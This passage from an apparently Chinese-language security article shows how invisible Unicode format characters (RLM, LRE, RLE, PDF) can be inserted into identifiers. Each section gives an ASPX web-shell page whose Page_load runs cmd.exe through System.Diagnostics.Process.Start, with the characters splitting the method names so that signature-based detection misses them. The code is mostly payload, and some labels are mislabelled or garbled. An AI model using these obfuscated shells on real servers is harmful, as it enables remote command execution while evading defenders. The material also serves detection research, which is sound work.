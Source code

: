 从右到左标记符 (RLM) `U+200F 、U+0000200F` 是一种不可见的格式化字符，和3.3用法正好相反，用于设置相邻字符相文本方向的分组方式。

```php
<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false" validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>
<script runat="server">
public void Page_load(){
    System.Diagnostics.Pro\u200Fcess.Star\u200Ft("cmd.exe","/c calc");
    }
</script>
```

4.5 从左到右嵌入
----------

从右到左标记符 (LRE) `U+202A、U+0000202A` 从 Unicode 6.3 开始，不鼓励使用`U+2066`嵌入的字符会影响外部字符的顺序。

```php
<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false" validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>
<script runat="server">
public void Page_load(){
    System.Diagnostics.Pro\u202Acess.Start("cmd.exe","/c calc");
    }
</script>
```

4.6 从右到左嵌入
----------

从右到左标记符 (RLE) `U+202B、U+0000202B` 从 Unicode 6.3 开始，不鼓励使用`U+2067`嵌入中的字符会影响外部字符的顺序

```php
<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false" validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>
<script runat="server">
public void Page_load(){
    System.Diagnostics.Pro\u202Bcess.Start("cmd.exe","/c calc");
    }
</script>
```

4.7 POP定向格式化
------------

Pop Directional Formatting（PDF） `U+202C、U+0000202C`

```php
<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false" validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>
<script runat="server">
public void Page_load(){
    System.Diagnostics.Pro\U0000202Ccess.Start("cmd.exe","/c calc");
    }
</script>
```
